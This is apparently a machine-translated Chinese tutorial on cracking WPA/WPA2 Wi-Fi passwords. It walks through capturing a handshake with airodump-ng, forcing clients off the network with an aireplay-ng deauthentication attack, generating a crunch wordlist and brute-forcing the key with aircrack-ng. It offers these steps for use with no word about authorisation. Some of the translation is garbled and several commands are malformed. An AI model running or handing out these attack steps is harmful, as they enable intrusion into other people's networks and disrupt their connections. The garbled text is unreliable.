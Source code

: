 好吧，但它是如何工作的？

每次您连接到任何一个 **AP** 时，客户端和 AP 之间会发生一次 4 次握手(4 个数据包连接到目标网络)。我们需要捕捉握手，然后用 **aircrack** 我们将不得不对握手发起单词列表攻击来确定密钥。

该死的…

同样，为了破解 **WPA/WPA2** 我们需要捕捉握手，并在强力之后通过**单词列表**或**文本字典**来获取

# 捕捉握手(一步一步)

首先，让我们在特定的 **WAP** 目标上运行`airodump-ng`

`airodump-ng --channel --bssid --write interface`

然后，我们需要强制握手，这可以通过强制 un-auth 或简单的网络重新连接来实现。

`aireplay-ng --deauth [4] -a [AP] -c [target][interface]`

**专业提示**:当你这么做的时候，注意右上角的信息，这个包应该说:WPA 握手或者类似这样的东西**【WPA 握手:00:10:18:90:2D:EE】**

# 创建单词列表

太好了，你已经检测到 AP 握手，现在我们将使用 Kali 的 **crunch** 工具生成一个单词列表，或者你可以在互联网上下载一个专业的。

这一步需要制作一个强力列表样式，这样 **Aircrack** 将用来破解 **WPA** 密钥

`./crunch [min][max][characters=lower|upper|numbers|smbols] -t [pattern] -o file (output file)`

这是条件反射的一个例子

`./crunch 6 8 12356!"&$% -o wordlist -t a@@@@b -> chars between a and b`

现在，让我们用这个该死的单词表

用**气锤**撬开钥匙。使用 **pbkdf2** **算法**将单词列表中的每个密码与名称 **ESSID** 组合起来计算出**成对主密钥(PMK)** 。

PMK 被比作握手文件。

`aircrack-ng [handshake file] -w [wordlist][interface]`

然后等着看大部分时间会发生什么(结果可能会有所不同)。

我敢肯定，对于这种易受攻击的加密技术，还有更常见的攻击方式，以及更复杂的实现方式。让我们不断更新这个要点。

快乐编码。